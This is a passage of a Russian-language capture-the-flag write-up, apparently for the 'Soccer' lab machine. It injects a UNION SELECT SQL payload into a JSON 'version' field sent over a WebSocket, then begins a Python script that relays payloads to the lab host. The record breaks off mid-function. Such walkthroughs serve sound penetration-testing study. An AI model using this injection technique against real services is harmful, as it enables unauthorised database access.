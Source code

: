 ![](../assets/Soccer/3.png)

Мы получили данные. Теперь же попробуем найти SQL Injection, отправив данную полезную нагрузку.

![](4.png)

![](../assets/Soccer/4.png)

```
{"version":"0.0.2\" union all select NULL,NULL,NULL,NULL--"}
```

Изменим скрипт, который мы использовали для связи с WebSocket-ом.
```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://10.10.11.206:5789/version"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
```